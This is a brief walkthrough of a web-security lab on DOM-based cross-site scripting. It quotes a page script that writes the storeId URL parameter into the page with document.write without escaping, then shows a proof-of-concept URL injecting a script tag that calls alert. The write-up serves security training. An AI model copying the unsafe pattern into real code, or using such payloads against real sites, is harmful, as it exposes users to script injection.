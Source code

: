 From lab description 

```
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality
```

Looking at the page's source we can see an interesting script tag 

```javascript
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```

It uses `document.write` function with arbitrary string set by search parameter `storeId`. 

To validate it actually is doing what we think, we can give some text

![image](./ss/DOM-XSS-in-document.write-inside-a-select-element1.png)

Then actually 'exploit' by alert function

```
/product?productId=3&storeId=%3Cscript%3Ealert(1)%3C/script%3E
```
